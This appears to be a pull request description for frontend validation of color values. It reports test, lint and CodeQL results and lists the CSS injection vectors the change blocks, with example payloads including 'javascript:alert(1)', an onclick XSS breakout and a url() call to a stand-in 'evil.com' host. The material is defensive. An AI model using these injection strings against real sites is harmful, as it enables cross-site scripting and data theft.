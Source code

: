 ## Testing

### Functional Testing
- **34 automated test cases** covering:
  - ✅ Valid color formats (hex, RGB, HSL, named colors)
  - ✅ Malicious injection attempts
  - ✅ Edge cases (null, undefined, empty strings)
  - ✅ Boundary values (color ranges)
- **Result**: 34/34 tests passed ✓

### Build & Lint Verification
- ✅ TypeScript compilation successful
- ✅ ESLint checks passed
- ✅ Production build successful
- ✅ No warnings or errors

### Security Scanning

#### CodeQL Analysis
- **JavaScript/TypeScript Analysis**: 0 alerts
- **Status**: ✅ PASSED - No vulnerabilities detected

## Security Impact

### Risk Mitigation

**Before:**
- Colors from backend could potentially be used in inline styles without frontend validation
- Risk of CSS injection if backend validation was bypassed or contained vulnerabilities

**After:**
- Defense-in-depth: Colors are validated on frontend before use in inline styles
- Multiple layers of protection against CSS injection attacks
- Safe fallback behavior for invalid colors

### Attack Vectors Mitigated

1. **CSS Property Injection**: Blocked via semicolon detection
   - Example: `"red; position: absolute; top: 0"`

2. **JavaScript Execution**: Blocked via protocol and expression detection
   - Example: `"javascript:alert(1)"`, `"expression(alert(1))"`

3. **External Resource Loading**: Blocked via url() detection
   - Example: `"url('http://evil.com/steal-data')"`

4. **Attribute Breakout**: Blocked via quote detection
   - Example: `"red\" onclick=\"alert('XSS')"`

5. **Style Breakout**: Blocked via semicolon and escape detection
   - Example: `"red'; background: url('evil')"`
